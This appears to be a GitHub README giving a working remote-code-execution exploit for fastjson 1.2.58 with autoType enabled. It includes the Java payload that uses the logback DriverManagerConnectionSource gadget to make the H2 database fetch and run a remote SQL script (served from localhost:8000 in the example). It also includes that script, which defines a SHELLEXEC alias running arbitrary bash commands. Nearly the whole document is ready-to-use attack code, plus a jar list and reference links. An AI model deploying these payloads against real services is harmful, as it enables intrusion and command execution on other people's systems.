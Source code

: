 # fastjson-1.2.58-rce
#### need: 
```
fastjson autoType is enabled
h2 database and some jar
.
├── fastjson-1.2.58.jar
├── h2-1.4.199.jar
├── jackson-annotations-2.9.8.jar
├── jackson-core-2.9.8.jar
├── jackson-databind-2.9.8.jar
└── logback-core-1.3.0-alpha4.jar
```
![](./test.png)
![](./fastjson-1.2.58.jpg)


### Download fastjson-1.2.58.jar
http://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.58/fastjson-1.2.58.jar


### exp.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class exp {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"ch.qos.logback.core.db.DriverManagerConnectionSource\", \"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'\"}";
        JSONObject json = JSON.parseObject(payload);
        json.toJSONString();
    }
}
```

### inject.sql
`you can create an function on H2 that calls a java code`
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc')

```

## 参考链接

https://www.freebuf.com/vuls/209394.html

https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html

